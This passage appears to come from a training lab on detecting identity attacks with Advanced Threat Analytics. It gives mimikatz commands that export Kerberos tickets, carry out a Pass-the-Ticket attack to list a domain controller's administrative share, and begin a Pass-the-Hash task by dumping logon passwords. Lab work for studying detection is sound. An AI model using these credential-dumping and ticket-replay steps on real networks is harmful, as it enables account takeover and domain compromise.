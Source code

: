 ```
cd C:\UTIL\x64
```

14.   From the **Administrator: Command Prompt** window, run the following:

```
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"
```

15.   This will dump each individual Kerberos ticket in the local cache into separate .kirbi files in the C:\\UTIL folder. You are interested only in those associated with the **ADATUM\\Administrator** account. In this task, you will test the **Pass-the-Ticket** functionality by validating access to the default administrative share of LON-DC1, so you’ll use only the relevant **CIFS** ticket. To copy the relevant tickets to the **C:\\UTIL\\Tickets** subfolder, from the **Administrator: Command Prompt** window, run the following: 

```
robocopy . C:\UTIL\Tickets *Administrator@cifs-lon-dc1.adatum.com.kirbi
```

16.   Now to execute a **Pass-the-Ticket** attack, from the **Administrator: Command Prompt** window, run the following:

```
mimikatz.exe "privilege::debug" "kerberos::ptt c:\UTIL\Tickets" "exit"
```

17.   To validate that the **Pass-the-Ticket** exploit was successful, from the **Administrator: Command Prompt** window, run the following:

```
klist
```

18.   Verify that the output includes the ticket of the **ADATUM\\Administrator** account. Another way to validate the outcome of the exploit is to enumerate content of the default administrative share on the domain controller LON-DC1. To accomplish this, from the **Administrator: Command Prompt** window, run the following:

```
dir \\lon-dc1.adatum.com\c$
```

19.   Ensure that the command returns the listing of the content of the C: drive on LON-DC1.

  > **Note:** ATA postpones generation of the Identity theft using pass-the-ticket attack alert so you will not be able to observe it in this lab. This delay is intended to lower the false positive rate of the Pass-the-Ticket alerts. 


#### Task 5: Carrying out an Pass-the-Hash exploit

Now you will leverage the information you gathered in the previous tasks in order to perform a Pass-the-Hash exploit.

1.   On LON-CL1, while signed on as **ADATUM\\Ida**, from the **Administrator: Command Prompt** window, run the following:

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > task5.txt
```
